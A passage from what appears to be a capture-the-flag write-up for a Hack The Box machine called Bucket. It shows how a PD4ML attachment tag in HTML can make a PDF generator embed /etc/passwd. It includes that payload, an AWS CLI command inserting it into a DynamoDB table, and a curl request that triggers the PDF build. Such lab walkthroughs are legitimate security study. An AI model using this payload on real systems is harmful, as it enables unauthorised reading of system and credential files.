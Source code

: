 - So 
  - [Documentation](https://pd4ml.tech/support-topics/usage-examples/)
  - We can [attach files](https://pd4ml.tech/support-topics/usage-examples/#add-attachment)
  - Paylaod: `<html><pd4ml:attachment src=\"/etc/passwd\" description=\"attachment sample\" icon=\"Paperclip\"/></html>`

![](./images/7.png)

- Let's test it
  - We might have to create table again, since it gets deleted
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<html><pd4ml:attachment src=\"/etc/passwd\" description=\"attachment sample\" icon=\"Paperclip\"/></html>"}}'
{
    "ConsumedCapacity": {
        "TableName": "alerts",
        "CapacityUnits": 1.0
    }
}
```
```
└─$ curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
```